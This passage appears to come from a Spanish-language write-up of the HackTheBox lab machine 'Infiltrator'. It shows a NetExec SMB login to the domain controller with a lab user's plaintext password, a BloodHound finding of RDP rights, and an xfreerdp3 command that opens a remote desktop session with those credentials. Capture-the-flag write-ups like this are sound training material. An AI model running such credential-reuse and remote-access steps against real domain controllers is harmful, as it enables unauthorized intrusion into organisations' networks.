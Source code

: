 ```bash
❯ nxc smb dc01.infiltrator.htb -u 'O.martinez' -p 'M@rtinez_P@ssw0rd!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\O.martinez:M@rtinez_P@ssw0rd! 
```

Revisamos en `BloodHound` de que el usuario `O.martinez@infiltrator.htb` dispone de privilegios `CanRDP` sobre el equipo `DC01`. Por lo cual podríamos conectarnos por RDP al Domain Controller.

<figure><img src="../../../.gitbook/assets/imagen (41).png" alt=""><figcaption></figcaption></figure>

Nos conectaremos mediante `xfreerdp3` al DC para tener acceso remoto por RDP y tener entorno gráfico.

```bash
❯ xfreerdp3 /u:O.martinez /p:'M@rtinez_P@ssw0rd!' /v:10.10.11.31 /dynamic-resolution
```

Verificamos que disponemos del disco `C:` y de una unidad cifrada con BitLocker `E:`.
